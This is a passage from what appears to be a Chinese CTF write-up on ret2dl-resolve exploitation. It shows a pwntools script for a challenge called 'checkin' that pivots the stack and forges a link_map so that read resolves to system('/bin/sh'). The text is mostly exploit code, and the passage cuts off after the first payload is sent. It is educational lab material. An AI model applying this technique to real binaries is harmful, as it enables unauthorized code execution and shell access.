 ```python
rop.raw(0)
rop.raw(0x00000000004007a3)  # 0x00000000004007a3: pop rdi; ret;
rop.raw(fake_linkmap_addr + 0x48)# /bin/sh
rop.raw(resolve_call)
p.send(rop.chain())
p.interactive()
```

这里给一道例题

### checkin（仅溢出8字节）

![image-20220402194923569](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220402194923569.png)

题目只有一个read，此外没有别的函数

这道题就是一个linkmap拆开读入进去，学到了一个栈迁移的小细节：一般我们栈迁移拼接payload读入2次，下一次读入就会在那条payload+8处直接执行，这时候如果在这个位置放上一个leave_ret，就能跳转到ebp+8处执行，从而继续控制程序流。这条payload还必须填满。

![image-20220402200901900](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220402200901900.png)

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
p = process('./checkin')
elf = ELF('./checkin')
libc = elf.libc

plt0 = elf.get_section_by_name('.plt').header.sh_addr
rop_addr = 0x404000 + 0x700
pop_rdi_ret = 0x401253
leave_ret= 0x4011e2
main_read = 0x4011bf

def create_fake_link_map_1(fake_addr, known_got, reloc_index, offset):
	target = fake_addr - 8 #the result you write in (any addr)
	fake_link_map = p64(offset & (2**64-1)) #l_addr
	fake_link_map = fake_link_map.ljust(0x30, b'\x00')
	fake_jmprel = p64(target-offset) #r_offset
	fake_jmprel += p64(7) #r_info
	fake_jmprel += p64(0) #r_append
	fake_link_map += fake_jmprel
	fake_link_map += b"/bin/sh\x00"
	fake_link_map = fake_link_map.ljust(0x58, b'\x00')
	return fake_link_map
def create_fake_link_map_2(fake_addr, known_got, reloc_index, offset):
	fake_link_map = p64(0) + p64(leave_ret)
	fake_link_map += p64(fake_addr) #l_info[5] dynstr
	fake_link_map += p64(fake_addr+0x78-8) #l_info[6] dynsym
	fake_link_map += p64(known_got-8) #dynmic symtabg
	fake_link_map += p64(fake_addr+0x30-0x18*reloc_index) #dynmic jmprel
	fake_link_map += b'\x00'*0x70
	return fake_link_map

fake_reloc_arg = 0 # just as one wishes
fake_link_map_addr = rop_addr + 0x48
fake_link_map_1 = create_fake_link_map_1(fake_link_map_addr, elf.got['read'],fake_reloc_arg, libc.sym['system'] - libc.sym['read'])
fake_link_map_2 = create_fake_link_map_2(fake_link_map_addr, elf.got['read'],fake_reloc_arg, libc.sym['system'] - libc.sym['read'])

# 栈迁移
payload= b'\x00'*0xa0 + p64(rop_addr+0xa0) + p64(main_read)
p.send(payload)
```